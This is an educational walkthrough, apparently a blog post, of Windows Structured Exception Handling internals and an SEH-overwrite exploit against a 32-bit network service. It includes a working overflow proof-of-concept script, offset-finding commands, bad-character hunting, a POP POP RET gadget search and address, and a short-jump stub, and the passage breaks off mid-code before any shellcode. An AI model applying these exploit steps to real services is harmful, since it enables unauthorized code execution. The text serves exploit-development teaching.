> A deep, beginner-friendly, and technically rigorous walkthrough of how Windows
> Structured Exception Handling works, how attackers abuse it to hijack execution,
> and how modern defenses try to stop them.

---

## 1. Introduction: Why SEH Still Matters

Structured Exception Handling (SEH) is the mechanism Windows uses to deal with
errors that occur while a program is running — a division by zero, a read from an
invalid memory address, an explicit `throw` from C++ code, and so on. It is one of
the oldest and most elegant subsystems in the Windows runtime, and for roughly two
decades it has also been one of the most reliably exploitable.

The reason is structural. SEH stores its bookkeeping data — specifically, pointers
to the functions that should run when something goes wrong — **directly on the
stack**, intermixed with ordinary local variables. A stack buffer overflow can
therefore corrupt not only return addresses but the exception-handling machinery
itself. When the program subsequently faults, the operating system faithfully calls
a "handler" that the attacker now controls.

> **What you will learn.** By the end of this article you will understand the exact
> Windows data structures involved (`TEB`, `_NT_TIB`, `_EXCEPTION_REGISTRATION_RECORD`,
> `CONTEXT`, `_EXCEPTION_DISPOSITION`), how the dispatcher walks the SEH chain, how an
> attacker overwrites that chain, why the **POP POP RET** gadget is the linchpin of
> the technique, how short jumps and "island hopping" bridge the gap to shellcode,
> and finally how `SafeSEH`, `SEHOP`, `DEP`, and `ASLR` change the game.
{: .prompt-info }

We will use a real, classic stack overflow in a 32-bit network service as our
laboratory. Every concept is paired with a debugger screenshot so you can connect
abstract theory to concrete bytes in memory.

> Everything here is intended for **defensive research, education, and authorized
> testing only**. Run these techniques exclusively against software and systems you
> own or are explicitly permitted to test. Memory-corruption exploitation against
> systems you do not control is illegal in most jurisdictions.
{: .prompt-warning }

---

## 2. Prerequisites and Mental Model

To follow along comfortably you should be familiar with:

- **x86 (32-bit) assembly basics** — registers (`EAX`, `ECX`, `ESP`, `EBP`, `EIP`),
  the stack, `PUSH`/`POP`/`CALL`/`RET`/`JMP`.
- **The call stack** — how function calls push a return address and a stack frame.
- **A debugger** — the screenshots use WinDbg, but the ideas transfer to any
  Windows debugger.

Here is the single most important mental model for this entire article:



*Figure 2.1 — The five-step skeleton of every SEH overflow. The rest of this
article is just filling in the details of each box.*

Notice that an SEH overflow requires **two** distinct events: the overflow that
corrupts the handler, and a *second* exception that causes the OS to actually call
that corrupted handler. This two-stage nature is what makes SEH exploitation
different from a classic return-address overwrite.

---

## 3. Buffer Overflows in 90 Seconds

A **buffer** is a fixed-size region of memory reserved to hold data — for example, a
500-byte array on the stack to hold an incoming network message. A **buffer
overflow** happens when a program writes more data into that buffer than it can
hold, spilling past its boundary and overwriting whatever sits next to it in memory.

On the stack, "whatever sits next to it" includes extremely sensitive control data:



*Figure 3.1 — A stack buffer overflow grows toward higher addresses (data is copied
forward), so it can clobber the saved return address and, crucially for us, the SEH
records stored higher up the stack.*

In a **classic** overflow, the attacker overwrites the saved return address so that
when the function executes `RET`, `EIP` is loaded with an attacker-chosen value. In
an **SEH** overflow, the attacker instead (or additionally) overwrites the exception
handler pointers. Both ultimately achieve the same goal — control of `EIP` — but
through different paths.

> **Why target SEH at all if return-address overwrites exist?** Because of stack
> cookies (`/GS`). Compilers insert a random "canary" value before the return
> address and check it before `RET`. If the canary was overwritten, the program
> aborts *before* using the corrupted return address. But the SEH records often live
> *beyond* the canary, and a fault can be triggered to invoke the handler *before*
> the cookie check ever runs — sidestepping `/GS` entirely. SEH overwrites became
> popular precisely because they routinely bypass stack cookies.
{: .prompt-tip }

---

## 4. Triggering the First Crash

Our target is a 32-bit Windows network service that accepts data on TCP port `9121`.
The application expects a structured message with a header followed by a body. By
sending an over-long body of `A` characters (`0x41`), we can overflow an internal
stack buffer.

The proof-of-concept below builds the protocol header the service expects, then
appends 1000 bytes of `0x41`:

```python
from struct import pack
import sys
import socket

try:
    port = 9121
    host = sys.argv[1]
    size = 1000
    inputbuffer = b"\x41" * size                  # 1000 "A" bytes

    header  = b"\x75\x19\xba\xab"
    header += b"\x03\x00\x00\x00"
    header += b"\x00\x40\x00\x00"
    header += pack('<I', len(inputbuffer))         # body length
    header += pack('<I', len(inputbuffer))         # body length (again, per protocol)
    header += pack('<I', inputbuffer[-1])          # trailer byte
    buf = header + inputbuffer

    print("[+] Sending Evil Buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    s.send(buf)
    s.close()
    print("[+] Done!")

except socket.error:
    print("[-] Unable to connect to the target")
```



*Figure 4.1 — The initial crash script. The header is crafted to satisfy the
service's protocol parser so that our 1000 `A` bytes are actually copied into the
vulnerable stack buffer rather than being rejected early.*

We launch it against the target:

```bash
python3 seh_overflow.py 10.0.2.15
```



*Figure 4.2 — The script connects, sends the payload, and prints `[+] Done!`. From
the network side everything looks normal; the damage happens inside the target
process.*

> A successful exploit-development run almost always **starts** with a controlled,
> repeatable crash. If you cannot reliably crash the target, you cannot reliably
> exploit it. The first goal is reproducibility, not code execution.
{: .prompt-info }

---

## 5. Analyzing the Crash in the Debugger

With the service running under a debugger, the oversized input produces an access
violation. The first thing we notice is that one of our `0x41` bytes has landed
inside a CPU register:



*Figure 5.1 — The debugger reports an access violation. `EAX` now holds `41414141`
("AAAA"), proving our input reached a place where it influences program state.*

Looking at the faulting instruction tells the story precisely:



*Figure 5.2 — The crash occurs at `call dword ptr [eax+24h]`. Because `EAX =
41414141`, the CPU tries to read a function pointer from `41414141 + 0x24 =
41414165`, which is unmapped memory. The `???????` next to the operand confirms the
address is invalid. The register dump shows `eax=41414141` — a direct fingerprint of
our buffer.*

The arithmetic is worth doing by hand because it builds intuition:

```text
EAX           = 0x41414141      ("AAAA", little-endian on the stack)
displacement  = 0x00000024
target        = 0x41414141 + 0x24 = 0x41414165   -> invalid, unmapped
```

Our data is also still sitting on the stack. Dumping memory around `ESP` shows the
payload survived intact:

```text
dds esp L30
```



*Figure 5.3 — `dds` ("dump dword symbols") around `ESP` shows long runs of
`41414141`. Our buffer is everywhere on the stack — useful later when we need a
place to stash shellcode.*

If we let the process continue past the first-chance exception, the situation
escalates: `EIP` itself becomes attacker-controlled.

```text
g
```



*Figure 5.4 — After resuming, `EIP = 41414141`. The instruction pointer is now under
our control. The interesting question is **how** we got here — and the answer is the
exception-handling machinery, which is exactly what we will dissect next.*

> **First chance vs. second chance.** When an exception is raised, the debugger sees
> it first (the *first chance*) before the application's own handlers run. If the
> application's handlers fail to resolve it, the debugger sees it again (the *second
> chance*). The transition from Figure 5.1 to Figure 5.4 is the OS attempting to
> dispatch the exception through the (now corrupted) SEH chain.
{: .prompt-tip }

---

## 6. Windows Exceptions: Hardware vs. Software

Before we can weaponize exceptions, we need to understand what an *exception* is.
Windows splits them into two families:



*Figure 6.1 — Exceptions originate either from the processor (hardware) or from
software explicitly signaling an error condition.*

- **Hardware exceptions** are initiated by the CPU itself. When a program does
  something the processor cannot complete — dereference an invalid pointer, divide
  by zero, execute a privileged instruction in user mode — the CPU raises a fault
  and transfers control to the operating system.
- **Software exceptions** are raised by code, typically through the
  `RaiseException` API or a language runtime (C++ `throw`, for example). They signal
  conditions the program defines as exceptional.

Either way, once an exception exists, Windows must answer one question: **which piece
of code is responsible for handling it?** That responsibility is precisely what
Structured Exception Handling tracks.

> The access violation we triggered in Section 5 is a *hardware* exception — the CPU
> could not complete the memory access at `0x41414165`. The operating system's
> response to that hardware exception is what walks us into the SEH chain.
{: .prompt-info }

---

## 7. Structured Exception Handling Internals

The operating system must locate the correct exception handler whenever an
unexpected event occurs. The critical insight is that **SEH operates on a per-thread
basis**: every thread maintains its own independent chain of handlers.



*Figure 7.1 — Structured exception handling is a per-thread concept. Each thread is
described by a structure called the Thread Environment Block (TEB), which stores
thread-specific information — including the head of that thread's exception-handler
chain.*

### 7.1 The TEB and the PEB

Two structures anchor everything:

- **TEB — Thread Environment Block.** One per thread. Holds thread-local data: the
  stack boundaries, the thread ID, thread-local storage, and — at its very
  beginning — the head of the SEH chain.
- **PEB — Process Environment Block.** One per process. Holds process-wide data: the
  list of loaded modules, process parameters, heap information, and global flags
  that (as we will see) influence exception dispatching and mitigations.



*Figure 7.2 — A process has a single PEB but one TEB per thread. Each TEB owns a
separate SEH chain, which is why exception handling is described as per-thread.*

We can confirm the layout in the debugger by dumping the TEB type:

```text
dt nt!_TEB
```



*Figure 7.3 — The `_TEB` begins (offset `+0x000`) with a nested structure named
`_NT_TIB` (the "Thread Information Block"). Because it sits at the very start of the
TEB, its first field is also the first thing a thread's `FS` segment points to.*

> **How do you find the PEB?** From any thread you can reach it through the TEB.
> Later, in Figure 16.3, you will see WinDbg's `!teb` output report the
> `PEB Address` directly. The PEB matters to us because it holds the `ImageBaseAddress`
> and the global flags that DEP and SafeSEH consult.
{: .prompt-info }

### 7.2 FS:[0] and the Exception List

On 32-bit Windows, the `FS` segment register always points to the TEB of the
currently executing thread. Because `_NT_TIB` is the first member of the TEB, and
the exception list is the first member of `_NT_TIB`, the head of the SEH chain lives
at the famous address **`FS:[0]`**.

```text
dt _NT_TIB
```



*Figure 7.4 — The first member of `_NT_TIB` (offset `+0x000`) is
`ExceptionList`, typed as a pointer to `_EXCEPTION_REGISTRATION_RECORD`. This is the
head of the singly linked list of handlers — and it is reachable at `FS:[0]`.*

![Diagram: FS:[0] to NT_TIB to ExceptionList to first registration record](../images/seh-diagram-05.png)

*Figure 7.5 — The lookup path the CPU/OS follows to find a thread's first exception
handler: `FS:[0]` → `_NT_TIB` → `ExceptionList` → first registration record.*

> Commit `FS:[0]` to memory. When you read Windows internals papers, exploit
> write-ups, or malware analyses, "`fs:[0]`" is shorthand for "the head of the
> current thread's SEH chain." Seeing a program write to `fs:[0]` means it is
> installing or removing an exception handler.
{: .prompt-tip }

### 7.3 The Exception Registration Record

Each link in the SEH chain is an `_EXCEPTION_REGISTRATION_RECORD`. It is tiny — just
two 4-byte pointers:

```text
dt _EXCEPTION_REGISTRATION_RECORD
```



*Figure 7.6 — An `_EXCEPTION_REGISTRATION_RECORD` has exactly two members:
`Next` at `+0x000` (a pointer to the following record) and `Handler` at `+0x004` (a
pointer to the handler callback function).*

The two fields play distinct roles:

- **`Next`** links one record to the next, forming a singly linked list. The final
  record's `Next` is set to `0xFFFFFFFF` to mark the end of the chain.



*Figure 7.7 — `Next` acts as the link between registration records, threading them
into a singly linked list of registered handlers.*

- **`Handler`** points to the callback function that the OS will invoke to try to
  resolve the exception.



*Figure 7.8 — `Handler` points to the exception-handling callback (the
`_except_handler` function). This pointer is the one an attacker most wants to
control.*

Every time a `try` block is entered, the compiler emits code that pushes a new
registration record onto the stack and links it at the head of the chain. Because
multiple `try` blocks may be active, the records form a list:



*Figure 7.9 — Each `try` block saves a pointer to its handler in an
`_EXCEPTION_REGISTRATION_RECORD` on the stack. Because a function may execute several
`try` blocks, the records are connected together in a linked list.*

Putting it together, the on-stack SEH chain looks like this:



*Figure 7.10 — Three `_EXCEPTION_REGISTRATION_RECORD` structures on the stack, each
`Next` (green arrow) pointing to the one below it. The final record's `Next` field
holds `0xFFFFFFFF`, signaling the end of the chain.*



*Figure 7.11 — The same chain as a node graph. The OS starts at the head and follows
`Next` pointers until a handler resolves the exception or the chain terminates at
`0xFFFFFFFF`.*

### 7.4 The Handler Callback and `_EXCEPTION_DISPOSITION`

When the OS reaches a record, it calls that record's `Handler`. On 32-bit Windows 10
this callback has the prototype below and returns an `_EXCEPTION_DISPOSITION`:

```c
typedef EXCEPTION_DISPOSITION (*PEXCEPTION_ROUTINE)(
    IN     PEXCEPTION_RECORD     ExceptionRecord,
    IN     PVOID                 EstablisherFrame,
    IN OUT PCONTEXT              ContextRecord,
    IN OUT PDISPATCHER_CONTEXT   DispatcherContext
);
```



*Figure 7.12 — The handler callback prototype. The arguments most relevant to
exploitation are `EstablisherFrame` (a pointer to the very
`_EXCEPTION_REGISTRATION_RECORD` being processed) and `ContextRecord` (the captured
CPU state at the time of the fault).*

The two arguments that matter for exploitation:

- **`EstablisherFrame`** is a pointer to the `_EXCEPTION_REGISTRATION_RECORD` that is
  currently being handled. Remember this — it is the secret behind POP POP RET.
- **`ContextRecord`** points to a `CONTEXT` structure containing the processor's
  register state captured at the moment the exception was raised.

The handler returns one of the `_EXCEPTION_DISPOSITION` values:

```text
dt _EXCEPTION_DISPOSITION
```



*Figure 7.13 — The `_EXCEPTION_DISPOSITION` enumeration tells the OS what to do next.*

The two you must know:

- **`ExceptionContinueSearch`** — "I cannot handle this." The OS moves on to the next
  `_EXCEPTION_REGISTRATION_RECORD` in the chain.
- **`ExceptionContinueExecution`** — "I handled it; resume the program." The OS
  restores state from the `CONTEXT` and continues execution.



*Figure 7.14 — The dispatcher invokes handlers in chain order. Each that returns
`ExceptionContinueSearch` is skipped; the first that returns
`ExceptionContinueExecution` ends the search and resumes the thread.*

### 7.5 The CONTEXT Structure

The `CONTEXT` structure is a complete snapshot of the CPU at fault time. It is how
the OS can "rewind" and resume a thread after an exception is handled.

```text
dt ntdll!_CONTEXT
```



*Figure 7.15 — The `_CONTEXT` structure stores processor-specific register data
(general-purpose registers, segment selectors, the instruction pointer, flags, and
more) as captured when the exception was raised. When a handler returns
`ExceptionContinueExecution`, the OS reloads execution from these saved values.*

> The `CONTEXT` is double-edged. Defensively it enables clean recovery. Offensively,
> some advanced techniques manipulate the `CONTEXT` so that when execution
> "resumes," it resumes at an attacker-chosen address. For our walkthrough we use the
> simpler and more common POP POP RET approach instead.
{: .prompt-info }

---

## 8. Exception Dispatching and SEH Validation

Now we can assemble the full dispatch pipeline. When an exception fires, control
enters `ntdll!KiUserExceptionDispatcher`, the user-mode entry point for exception
dispatching. It receives two arguments:

1. An `_EXCEPTION_RECORD` describing the exception (code, faulting address, flags).
2. A `CONTEXT` describing the CPU state.

`KiUserExceptionDispatcher` calls `RtlDispatchException`, which retrieves the TEB,
finds the `ExceptionList`, and walks it. For each record it performs **safety
checks** before calling the handler:

1. The record must lie **within the thread's stack limits** (as recorded in the TEB).
2. The handler is validated by **`RtlIsValidHandler`**, which implements the
   `SafeSEH` policy.



*Figure 8.1 — The exception dispatch pipeline, including the validation gates that
modern Windows applies before any handler runs.*

`RtlIsValidHandler` is the function that defends the SEH chain. A simplified version
of its logic:

```c
BOOL RtlIsValidHandler(PEXCEPTION_REGISTRATION_RECORD HandlerRecord)
{
    // 1. Handler resides inside a loaded module?
    if (Handler is within a loaded module's memory space)
    {
        if (Image DllCharacteristics has IMAGE_DLLCHARACTERISTICS_NO_SEH)
            return FALSE;                       // module opts out of SEH entirely
        if (Image has .NET "ILonly" flag)
            return FALSE;
        if (Image contains a SafeSEH table)     // module was built /SafeSEH
        {
            if (Handler is listed in the SafeSEH table)
                return TRUE;                    // trusted handler
            else
                return FALSE;                   // not a registered handler -> blocked
        }
    }
    // 2. DEP / NX constraints for handlers on non-executable pages
    if (Handler is on a non-executable page)
    {
        if (ExecuteDispatchEnable) return TRUE;
        else RaiseException(STATUS_ACCESS_VIOLATION);
    }
    // 3. Handlers outside any loaded image (e.g. dynamically generated code)
    if (Handler is not in any loaded image)
        return ImageDispatchEnable ? TRUE : FALSE;

    return TRUE;                                // default: allow
}
```



*Figure 8.2 — `RtlIsValidHandler` is the gatekeeper for SafeSEH. If a module is
compiled with `/SafeSEH`, only handler addresses listed in that module's registered
table are accepted; everything else is rejected. This is the single mitigation that
most directly breaks the technique we are about to demonstrate.*

If validation succeeds, `RtlpExecuteHandlerForException` sets up the arguments and
calls the handler. **Our entire attack depends on what happens when validation does
*not* stop us** — which is exactly the case when modules are compiled *without*
SafeSEH, as we will confirm shortly.

> Keep this distinction crystal clear: `RtlIsValidHandler` validates the **handler
> pointer** (does it point somewhere legitimate?). It does **not** validate the
> integrity of the **chain** itself. Guarding the chain's integrity is a different
> mitigation — SEHOP — covered in Section 19.
{: .prompt-danger }

---

## 9. Walking the SEH Chain in WinDbg

Let's make the chain concrete by walking it by hand in a clean (non-crashed)
process. First, dump the TEB to find the head of the exception list:

```text
!teb
```



*Figure 9.1 — `!teb` prints the thread's TEB, including `ExceptionList`. Notice the
address is close to `StackBase` — exception records live high on the stack, near
where the thread started.*

Now dump the first record at that address:

```text
dt _EXCEPTION_REGISTRATION_RECORD 01dcff60
```



*Figure 9.2 — The first record. Its `Next` field gives us the address of the second
record, and `Handler` gives us the first handler function. We simply follow `Next`
to walk the list.*

Following `Next` to the second and third records:



*Figure 9.3 — The second record, reached by following the first record's `Next`
pointer.*



*Figure 9.4 — The final record in the chain. Its `Next` field is `0xFFFFFFFF`, the
terminator that tells the dispatcher "there are no more handlers."*

WinDbg automates this entire manual walk with a single command:

```text
!exchain
```



*Figure 9.5 — `!exchain` traverses the chain for us. Here, after our overflow, it
already shows corruption: a handler of `41414141` and the message **"Invalid
exception stack at 41414141"**, confirming we overwrote the chain with our `A`
bytes. We arrived at this corrupted state by sending the same overflow from Section
4 and inspecting the chain.*



*Figure 9.6 — `!exchain` is just a convenience wrapper around the manual
`!teb` + `dt` + follow-`Next` walk you performed in Figures 9.1–9.4.*

> Get comfortable doing the walk **both** ways. `!exchain` is fast, but manually
> following `Next` pointers builds the intuition you need when a chain is partially
> corrupted and `!exchain` can no longer parse it cleanly.
{: .prompt-tip }

---

## 10. The SEH Overwrite: Theory of the Attack

Here is the central idea. The SEH records sit on the stack. Our overflow writes
*through* them. So we can overwrite:

- the **`Handler`** pointer (offset `+0x004`) — what the OS will call, and
- the **`Next`** pointer (offset `+0x000`) — which, in attacker terminology, we
  rename **`nSEH`** (next-SEH).

The classic SEH overwrite layout in the buffer is:

```text
[ filler bytes ............ ][ nSEH (4 bytes) ][ SEH/Handler (4 bytes) ][ more buffer ... ]
        |                          |                    |
   padding to reach            short JMP            POP POP RET
   the SEH record           (jump over Handler)      gadget address
```



*Figure 10.1 — The canonical SEH-overwrite buffer. `nSEH` overwrites the `Next`
field; `SEH` overwrites the `Handler` field. The two work as a team, as the next
sections explain.*

The exploitation sequence is:

1. **Overflow** the buffer, overwriting `nSEH` and the `Handler`.
2. The overflow itself corrupts the stack badly enough to **cause a second
   exception** (or one is already pending).
3. The OS dispatches the exception and **calls our overwritten `Handler`**.
4. We make `Handler` point to a **POP POP RET** instruction sequence. As we will
   prove in Section 14, this lands execution on our **`nSEH`** bytes.
5. `nSEH` contains a **short jump** that hops over the 4-byte `Handler` into the rest
   of our buffer.
6. From there we reach (directly or via "island hopping") our **shellcode**.



*Figure 10.2 — The end-to-end control-flow hijack. Each arrow is something we will
verify byte-by-byte in the debugger over the next several sections.*

> Why must `Handler` point at a POP POP RET *inside a loaded module* rather than
> directly at our buffer? Two reasons. First, on a SafeSEH-protected module a raw
> stack address would be rejected — but more fundamentally, we do not reliably know
> our stack address in advance, whereas a non-ASLR module sits at a fixed address we
> *do* know. The POP POP RET indirection lets a fixed, known address bounce us back
> to our (unknown-address) buffer. This is the elegant core of the technique.
{: .prompt-info }

---

## 11. Watching the Overwrite Take Effect

Let's confirm the theory against the live process. After sending the overflow we
re-inspect the TEB and walk the (now corrupted) chain.

```text
!teb
```



*Figure 11.1 — The TEB still reports a valid `ExceptionList` head; the corruption is
further down the chain, where our bytes reached.*

```text
dt _EXCEPTION_REGISTRATION_RECORD 0x01dcff60
```



*Figure 11.2 — The first record still looks intact and points us to the next record
via `Next`. We follow it toward the region our overflow reached.*

```text
dt _EXCEPTION_REGISTRATION_RECORD 0x01d8ff44
```



*Figure 11.3 — Here both fields are `41414141`. We have overwritten **both** the
`Next` pointer and the `Handler` of this registration record with our `A` bytes. This
is the corruption that `!exchain` flagged in Figure 9.5.*

Now we let the dispatcher run and confirm `EIP` is hijacked through the handler call:

```text
g
```



*Figure 11.4 — After resuming, `EIP = 41414141`. Crucially, this happened **via the
exception handler**, not via a `RET` from the vulnerable function — the signature of
an SEH overwrite.*

To prove the handler is responsible, examine the call stack at the moment of
hijack:

```text
k
```



*Figure 11.5 — The call stack shows `ntdll!ExecuteHandler2` in the path immediately
before our code runs. `ExecuteHandler2` is the internal routine that invokes
`_except_handler` callbacks — concrete proof that our `EIP` control flows through the
SEH dispatcher.*

Now check the registers to see what we control at hijack time:

```text
r
```



*Figure 11.6 — At the instant of the crash we control `EIP` and `ECX` (both contain
our data), but **no register points to our buffer**. This is the classic SEH
predicament: we control the instruction pointer but have no register conveniently
aimed at our shellcode. POP POP RET exists to solve exactly this.*

Stepping into the handler dispatch confirms the mechanism. Setting a breakpoint on
`ExecuteHandler2` and examining its disassembly reveals a `call ecx`:

```text
bp ntdll!ExecuteHandler2
g
u @eip L11
```



*Figure 11.7 — Inside `ExecuteHandler2` there is a `call ECX`. Because `ECX` holds
the handler pointer (which we overwrote), this `call` is what transfers execution to
our chosen address. If we set `Handler` to a POP POP RET address, *this* is the
instruction that jumps to it.*



*Figure 11.8 — A closer look at `call ECX`. Trace through it and you land on whatever
address we placed in the `Handler` field — the precise moment our overwrite turns
into code execution.*

> The fact that the handler is reached via `call ECX` (with `ECX` = our handler
> value) is implementation detail you do **not** need to memorize — but watching it
> in the debugger removes all the mystery. Control flow is not magic; it is a `call`
> to a pointer you corrupted.
{: .prompt-tip }

---

## 12. Finding the Offset with Pattern Creation

To weaponize the crash we must know **exactly** how many bytes precede the `Handler`
field. Counting `A`s is hopeless; instead we use a **cyclic (De Bruijn) pattern** — a
string where every 4-byte window is unique. When part of it lands in a register, we
can reverse the exact offset.

Generate a 1000-byte pattern:

```bash
msf-pattern_create -l 1000
```



*Figure 12.1 — A 1000-byte cyclic pattern. The sequence `Aa0Aa1Aa2...` never repeats
any 4-byte window, so any 4 captured bytes map to exactly one offset.*

We place this pattern in the body of the payload and re-send it, then read the
corrupted handler from the SEH chain:

```text
!exchain
```



*Figure 12.2 — The handler is now `33654132` and the next-record value is `65413165`
— these are bytes from our cyclic pattern, not `41414141`. Feeding the handler value
back into the pattern tool reveals its offset.*

```bash
msf-pattern_offset -l 1000 -q 33654132
```



*Figure 12.3 — The handler is overwritten at **offset 128**. So 128 bytes of filler
bring us to the `Handler` field; the 4 bytes of `nSEH` are at offset 124.*

We now rewrite the exploit with precise structure and validate control of the
handler:

```python
size   = 1000
filler = b"A" * 128
hSEH   = b"B" * 4                                  # should land exactly on Handler
junk   = b"C" * (size - len(filler) - len(hSEH))
inputbuffer = filler + hSEH + junk
```

```text
!exchain
```



*Figure 12.4 — The handler is now exactly `42424242` ("BBBB"). We have proven precise,
surgical control of the `Handler` field. Everything from here is about choosing
*what* to put there.*

> **nSEH vs. SEH offsets.** Because `Next` (nSEH) sits at `+0x000` and `Handler`
> (SEH) at `+0x004`, the four `nSEH` bytes occupy offsets 124–127 and the four
> `Handler` bytes occupy offsets 128–131. Hold onto this — Section 15 puts the short
> jump into those four `nSEH` bytes.
{: .prompt-info }

---

## 13. Identifying Bad Characters

Some byte values cannot survive the journey from our socket into memory. A null byte
(`0x00`) may terminate a string copy; a carriage return (`0x0d`) or line feed
(`0x0a`) may be mangled by a protocol parser. Any such **bad character** in our
handler address, jump, or shellcode will break the exploit. We must enumerate them.

The method: send all byte values `0x01`–`0xff` into the buffer, then inspect memory
to see where the sequence gets truncated or corrupted.

```python
badchars = (
  b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  # ... through ...
  b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
```

After sending, locate the buffer on the stack and dump it byte-by-byte:

```text
dds esp L5
db 006dff44
```



*Figure 13.1 — `dds esp L5` locates the address where our buffer landed so we can
inspect it directly.*



*Figure 13.2 — Dumping the bytes reveals the sequence stops right after `0x01`,
meaning `0x02` corrupted the copy — `0x02` is a bad character. We remove it, resend,
and repeat the whole process, peeling off one bad byte at a time.*

Iterating to completion yields the full bad-character set for this target:

```text
Bad characters: 0x00  0x02  0x0a  0x0d  0xf8  0xfd
```



*Figure 13.3 — Bad-character hunting is an iterative subtractive process: find the
first byte that breaks the copy, remove it, and try again until the buffer survives
unscathed.*

> Bad characters constrain **every** attacker-controlled value: the POP POP RET
> address, the short-jump opcodes, the stack-adjustment instruction, and the
> shellcode. When we generate shellcode in Section 17 we will explicitly exclude
> `\x00\x02\x0a\x0d\xf8\xfd`. Skipping this step is one of the most common reasons a
> "perfect" exploit silently fails.
{: .prompt-danger }

---

## 14. POP POP RET: The Heart of the Technique

We control the `Handler`, but no register points at our buffer (Figure 11.6). POP POP
RET solves this with a beautiful piece of stack arithmetic.

**The key fact:** at the moment the handler is invoked, the second argument on the
stack — `EstablisherFrame` — is a pointer to the `_EXCEPTION_REGISTRATION_RECORD`
being processed. That record *is* our overwritten `nSEH`/`Handler` pair on the stack.
So a pointer to our `nSEH` bytes is sitting on the stack, a fixed distance from
`ESP`.

When `ExecuteHandler2` does its `call` into the handler, the stack looks like this:

```text
ESP+0x00  ->  return address (back into ntdll)
ESP+0x04  ->  pointer to EXCEPTION_RECORD
ESP+0x08  ->  EstablisherFrame  = address of our registration record (== &nSEH)
ESP+0x0C  ->  pointer to CONTEXT
```

A **POP POP RET** gadget does exactly the right thing:

```text
pop eax        ; discard ESP+0x00 (return address)        -> ESP now points at +0x04
pop ebx        ; discard ESP+0x04 (ExceptionRecord ptr)   -> ESP now points at +0x08
ret            ; EIP = [ESP] = value at +0x08 = &nSEH      -> we land on nSEH!
```



*Figure 14.1 — Two `POP`s discard the first two stack slots; `RET` then jumps to the
value in the third slot, which is the address of our own `nSEH` bytes. POP POP RET
turns "I control the handler" into "I am executing inside my own buffer."*

The two registers popped are irrelevant (`EAX`/`EBX`, `ECX`/`EDX`, etc.) — any
`pop reg; pop reg; ret` works, as long as neither touches `ESP`. We just need such a
sequence at a **fixed, known, non-bad-character address** inside a loaded module.

### Confirming the target has no mitigations

First, load the `narly` extension and audit every module's protections:

```text
.load narly
!nmod
```



*Figure 14.2 — `!nmod` reports `/SafeSEH OFF` for the executable and every bundled
DLL (`syncbrs`, `libpal`, `libsync`, `libspp`). With SafeSEH disabled,
`RtlIsValidHandler` will not reject a handler that points into these modules — so any
POP POP RET inside them is fair game.*

### Locating a POP POP RET gadget

We pick a module (`libspp`) and find its address range:

```text
lm m libspp
```



*Figure 14.3 — `libspp` spans `0x10000000`–`0x10226000`. We will search this range
for our gadget. (A non-ASLR module load address like this is itself a gift — see
Section 19.)*

We confirm the opcodes for the POP instructions with an assembler:

```text
nasm > POP EAX   -> 58
nasm > POP EBX   -> 5B
nasm > POP ECX   -> 59
nasm > POP EDX   -> 5A
nasm > POP ESI   -> 5E
nasm > POP EDI   -> 5F
nasm > RET       -> C3
```



*Figure 14.4 — The single-byte opcodes for `POP <reg>` (`0x58`–`0x5F`, skipping
`0x5C`/`ESP`) and `RET` (`0xC3`). A POP POP RET is therefore any byte in `0x58–0x5B`
followed by any byte in `0x58–0x5B` followed by `0xC3` — we just need to find that
3-byte pattern in the module.*

A small WinDbg script brute-forces every POP/POP combination across the range:

```text
.block
{
    .for(r $t0 = 0x58; $t0 < 0x5F; r $t0 = $t0 + 0x01)
    {
        .for(r $t1 = 0x58; $t1 < 0x5F; r $t1 = $t1 + 0x01)
        {
            s-[1]b 10000000 10226000 $t0 $t1 C3
        }
    }
}
```



*Figure 14.5 — The script loops `$t0` and `$t1` over the POP opcodes and uses `s`
(search) to find every `$t0 $t1 C3` sequence between the module's start and end
addresses.*



*Figure 14.6 — The search returns a list of candidate gadget addresses. We just need
one whose bytes contain no bad characters.*

We validate a candidate by disassembling it:

```text
u 0x1015a2f0 L3
```



*Figure 14.7 — Address `0x1015a2f0` disassembles to exactly `pop eax ; pop ebx ; ret`
(`58 5B C3`). None of those bytes (`0x10`, `0x15`, `0xa2`, `0xf0`) are in our
bad-character set, so this address is usable as our handler.*

We point the `Handler` field at this gadget:

```python
hSEH = pack("<L", 0x1015a2f0)   # POP EAX ; POP EBX ; RET
```

After sending, `!exchain` shows the handler resolved to a real instruction inside the
module:



*Figure 14.8 — `!exchain` now resolves the handler to `libssp!pcre_exec+16460`
(`0x1015a2f0`) — our POP POP RET. When the exception fires, the OS will dutifully
call this address, and the gadget will bounce us to our `nSEH`.*

Setting a breakpoint on the gadget and stepping through it proves the landing:

```text
bp 1015a2f0
g
t
t
dd poi(esp) L8
```



*Figure 14.9 — After the two `POP`s and the `RET`, execution lands right at our
buffer — specifically at the `nSEH` bytes, just as Figure 14.1 predicted. POP POP RET
has converted handler control into code execution inside our own data.*

> POP POP RET is the conceptual heart of SEH exploitation. Internalize the stack
> arithmetic in Figure 14.1 and the rest of the technique becomes mechanical. The
> gadget is just a fixed-address springboard that the OS *itself* hands control to,
> bouncing execution back into our buffer.
{: .prompt-danger }

---

## 15. nSEH, Short Jumps, and Island Hopping

POP POP RET drops us onto the four `nSEH` bytes (offsets 124–127). But the four bytes
*after* them (offsets 128–131) are the `Handler` address `0x1015a2f0` — which, if
executed as code, is garbage that will crash us. We must **jump over** the handler.

Four bytes is just enough room for a **short (relative) jump**. The x86 short jump
`EB xx` jumps `xx` bytes forward, measured from the end of the jump instruction. We
need to hop past the 4 handler bytes.

When execution first reaches `nSEH`, the address it would otherwise run into is
invalid:



*Figure 15.1 — Without a jump, execution would fall into the handler address bytes
and then into an unmapped region — an immediate access violation. We need to redirect
*before* reaching it.*

We locate where our real buffer continues:

```text
dds eip L4
```



*Figure 15.2 — Our controllable buffer resumes a short distance ahead. We only need a
small relative jump to skip the handler bytes and land back in our data.*

We prototype the jump live in the debugger and read its opcode:

```text
a
JMP 0x...      ; assemble a short jump to the buffer continuation
u EIP L1
```



*Figure 15.3 — The assembled short jump is `EB 06` — "jump 6 bytes forward." Placed in
the `nSEH` field, it leaps over the 4-byte handler (plus a little padding) and into
the rest of our buffer.*

So our `nSEH` becomes a tiny stub: two `NOP`s for alignment followed by the short
jump.

```python
filler = b"A" * 124
